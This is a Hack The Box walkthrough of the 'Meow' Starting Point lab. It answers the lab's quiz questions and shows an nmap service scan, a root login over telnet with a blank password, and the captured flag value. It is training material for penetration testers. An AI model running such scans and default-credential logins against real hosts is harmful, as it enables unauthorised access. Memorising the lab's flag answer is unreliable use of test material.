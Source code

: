 # Meow From Hack The Box
By Herman Detwiler

[Back](/Hack-The-Box#hack-the-box-write-ups)

## Tags
- Enumeration
- Telnet
- External
- Penetration Tester Level 1

## Settup

1. Connect to the Hack The Box Starting Point VPN
2. Spawn Meow
3. Get machine ip and set to an env variable

```bash
export ip=10.129.3.195
```
# Tasks

## 1.)  What does the acronym VM stand for? 

VM within a cyber-security context is oft refering to a **V**irtual **M**achine

## 2.)  What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell.

This is called a `terminal`

## 3.)  What service do we use to form our VPN connection into HTB labs? 

We use `openvpn`

## 4.)  What is the abbreviated name for a 'tunnel interface' in the output of your VPN boot-up sequence output? 

Checking out or interfaces with `ifconfig` I can see that the answer is `tun`

```bash
ifconfig
```

```bash
ifconfig
...

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.15.246  netmask 255.255.254.0  destination 10.10.15.246
        inet6 fe80::dc2d:cf14:8f54:635c  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::11f4  prefixlen 64  scopeid 0x0<global>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2  bytes 96 (96.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
...
```

## 5.)  What tool do we use to test our connection to the target with an ICMP echo request? 

We use `ping`

## 6.)  What is the name of the most common tool for finding open ports on a target? 

That would be `nmap`

## 7.)  What service do we identify on port 23/tcp during our scans? 

To perform a service scan of our target with nmap

```bash
sudo nmap -sC -sV $ip
```

```
Nmap scan report for 10.129.3.195
Host is up (0.075s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.32 seconds

```
From this output I can see that `telnet` is open using tcp on port 23

## 8.)  What username is able to log into the target over telnet with a blank password? 

To connect via telnet the command is 

```bash
telnet $ip
```
Trying several usernames with blank passwords, I find that `root` can login with a blank pass.

```bash
└─$ telnet $ip                                                                                                  1 ⨯
Trying 10.129.3.195...
Connected to 10.129.3.195.
Escape character is '^]'.

admin^M
  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: 
admin
Password: 

Login incorrect
Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 22 Jun 2022 04:27:18 PM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             138
  Users logged in:       0
  IPv4 address for eth0: 10.129.3.195
  IPv6 address for eth0: dead:beef::250:56ff:feb9:9143

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Jun 22 16:25:47 UTC 2022 on pts/0

```
## 9.)  Submit root flag 

I can list the files within the current directory with the `ls` command. Finding an interesting file called flag.txt, I can view the content with the `cat` command:

```bash
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
root@Meow:~# 

```
From this I find the root flag.
`b40abdfe23665f766f9c61ecba8a4c19`
